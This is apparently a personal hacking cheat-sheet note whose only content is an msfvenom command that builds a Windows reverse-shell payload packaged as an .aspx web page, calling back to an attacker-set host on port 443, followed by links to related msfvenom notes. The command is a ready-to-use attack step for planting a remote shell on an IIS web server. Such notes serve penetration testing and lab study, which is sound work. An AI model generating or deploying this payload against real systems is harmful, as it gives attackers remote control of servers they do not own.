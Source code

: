 # MSFVENOM Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```

# References
- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted
